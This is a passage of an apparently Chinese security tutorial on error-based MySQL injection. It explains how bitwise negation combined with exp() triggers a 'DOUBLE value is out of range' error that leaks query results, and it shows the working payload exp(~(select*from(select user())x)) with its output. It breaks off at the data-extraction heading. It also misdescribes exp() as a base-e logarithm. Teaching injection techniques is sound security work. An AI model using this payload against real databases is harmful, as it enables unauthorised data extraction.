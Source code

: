 指数函数为对数函数的反函数，`exp()`即为以e为底的对数函数，如等式：

![enter image description here](http://drops.javaweb.org/uploads/images/7e475298cd1e4f1eb83220c0256f10f68d08e146.jpg)

```
mysql> select exp(2.70805020110221);
+-----------------------+
| exp(2.70805020110221) |
+-----------------------+
|                    15 |
+-----------------------+
1 row in set (0.00 sec)

```

0x02 注入
=======

* * *

当涉及到注入时，我们使用否定查询来造成“`DOUBLE value is out of range`”的错误。作者之前的博文提到的，将0按位取反就会返回“`18446744073709551615`”，再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号`BIGINT`值。

```
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec) 


mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
1 row in set, 1 warning (0.00 sec)

```

我们通过子查询与按位求反，造成一个`DOUBLE overflow error`，并借由此注出数据。

```
>`exp(~(select*from(select user())x))`

    mysql> select exp(~(select*from(select user())x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

```

0x03 注出数据
=========
